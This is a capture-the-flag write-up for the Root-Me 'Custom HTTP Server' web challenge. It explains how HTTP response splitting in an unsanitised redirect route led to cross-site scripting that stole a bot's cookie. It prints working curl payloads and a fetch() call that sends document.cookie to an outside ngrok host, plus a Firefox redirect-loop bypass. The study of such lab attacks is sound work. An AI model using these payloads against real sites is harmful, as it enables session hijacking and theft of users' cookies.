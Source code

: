 # Custom HTTP Server (day8)

<p align="justify">In this web challenge the goal was to attack a javascript website and retreive the flag. No informations were given about the way to process nor the location of the flag, but application source code was provided (attached to this repo). </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc" style="width:40%"></p>

After a few read of the source code I spoted the snippet below giving me informations about the way I could have retreived the flag :

````javascript
const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };
````

<p align="justify">Indeed the flag was actually javascript bot's cookie (playright) set on the local domain. As a matter of fact; the website offered a report method (in the file app.js : /api/report) in which it was possible to send an url to the bot, so that it could have checked it and as result be trapped. Hence to solve this challenge I had to find a way to exfiltrate the cookie through XSS attack.  The schema of the challenge had been the following one : </p>

- First, I had to find a way to steal my own cookie , craft a valid payload
- Then I had to adjust payload for firefox browser especially, because playright bot works over firefox
- Finaly I had to submit the payload on the report api so that the bot could have been trapped and sent its cookies

<p align="justify">At first I thought I had to bypass filter applied to XSS API as shown in the code snippet below. But after a few tries I gave up because of the sanitazer which was too restrictive (the filter is availabe under sanitizer.js in the source code zip) :</p>

````javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});
````

<p align="justify">I finaly spoted the redirect feature below, in which user input wasn't cleared nor processed; meaning it could have been exploited for injection and eventualy cross site scripting payload injection. Which looked interesting at this point : </p>

````javascript
router.get('/api/redirect', (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.badRequest();
  }
});
````

<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to inject the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload applied to the target domain: 

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Nonetheless when testing the payload on firefox, it only triggered a redirect loop leading abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters for fetching my external server to get around CORS restrictions: </p>

````javascript
fetch('http://7.tcp.eu.ngrok.io:18440/',
        {
                methode: 'POST',
                mode: 'no-cors',
                body: document.cookie
        }
)
````

Finally I came up with the final paylaod below :

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
After opening a listening port, I finally received the flag : 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !


